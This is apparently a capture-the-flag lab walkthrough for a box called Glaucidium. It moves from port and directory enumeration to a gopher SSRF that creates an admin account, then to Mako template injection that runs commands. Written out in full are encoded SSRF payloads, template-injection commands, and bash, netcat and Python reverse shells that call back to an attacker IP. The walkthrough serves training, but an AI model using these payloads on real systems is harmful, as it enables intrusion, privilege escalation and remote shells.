



# **Glaucidium**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.164.121
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.164.121 -w /usr/share/wordlists/dirb/common.txt
```
 

- http://192.168.164.121:80/api endpoint is there but it requires authentication.

## **Exploit SSRF in the CV upload feature to retrieve sensitive API documentation.**

- Register a guest user and login with that user. 

- Intercept the upload CV request and try to access the api endpoint for cv parameter.

 

- Here you can see it gives the api defination file.

Format JSON using jq:
```
jq -r 'fromjson' escaped.json > clean.json
```

```
            "request": {
              "body": {
                "mode": "formdata",
                "formdata": [
                  { "key": "username", "type": "text", "value": "" },
                  { "key": "password", "type": "text", "value": "" }
                ]
              },
              "header": [],
              "method": "POST",
              "url": {
                "raw": "{{url}}/api/admin/create",
                "host": ["{{url}}"],
                "path": ["api", "admin", "create"]
              }
            },
```

## **Use the API to create an admin account and escalate privileges.**

```
cv=gopher://127.0.0.1:80/_POST /api/admin/create HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Content-Length: 35

username=amrityam&password=amrityam
```

### **URL Encoded**

space: %20      
next line: %0A
```
cv=gopher://127.0.0.1:80/_POST%20/api/admin/create%20HTTP/1.1%0AHost:%20localhost%0AContent-Type:%20application/x-www-form-urlencoded;charset=UTF-8%0AContent-Length:%2035%0A%0Ausername=amrityam%26password=amrityam
```

Double URL Encode:
```
cv=gopher%3A%2F%2F127.0.0.1%3A80%2F_POST%2520%2Fapi%2Fadmin%2Fcreate%2520HTTP%2F1.1%250AHost%3A%2520localhost%250AContent-Type%3A%2520application%2Fx-www-form-urlencoded%3Bcharset%3DUTF-8%250AContent-Length%3A%252035%250A%250Ausername%3Damrityam%2526password%3Damrityam
```

 

This gives success response.

- Now login with that admin user account. Then you can find the local.txt flag here.

 

### local.txt flag:  1a496056f58a309d2e118cb8a8797b42

---

## **PROOF.TXT**

- From admin login, go to News Article page and create a updare an article. Here you can note News Articles support Mako template formatting.
So its woth to try the templaate injection for Mako, check the paloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#exploit-the-ssti-by-calling-ospopenread).

 

```
${self.module.cache.util.os.system("id")}
```

Now if you log out and go to News section, you can see it prints 0, which is exit code.
 


- To read the output of command, you can use os.open.
```
${self.module.cache.util.os.popen("id").read()}
```
 


- So you can try the ls to locate the proof.txt flag and then read it.

```
${self.module.cache.util.os.popen("ls").read()}
```
 

```
${self.module.cache.util.os.popen("cat proof.txt").read()}
```
 

### proof.txt flag: a4bbe0cbe859b70c1e3bbb6faea7f1fd 


### *Alternative*: 
If you try to take a reverse shell using below command it will not work and the exit code tells bash is not available. The problem here is more that this box is running a minimal busybox as OS and there is no bash.
```
${self.module.cache.util.os.system("bash -c 'bash -i >& /dev/tcp/192.168.45.226/1337 0>&1'")} 
```

So you can try below command to see which binaries are available.
```
${self.module.cache.util.os.popen('which python3  which python  which perl  which nc  which busybox || which sh').read()}
```

This output shows: /usr/local/bin/python3 /usr/bin/which /usr/local/bin/python /usr/bin/which /usr/bin/which /usr/bin/nc /usr/bin/which /bin/busybox /bin/sh 

So you can try reverse shell for netcat.

```
${self.module.cache.util.os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.226 443 >/tmp/f")}
```

- Try reverse shell for python3
```
${self.module.cache.util.os.system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.226\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"])' > /tmp/f")}
```

 
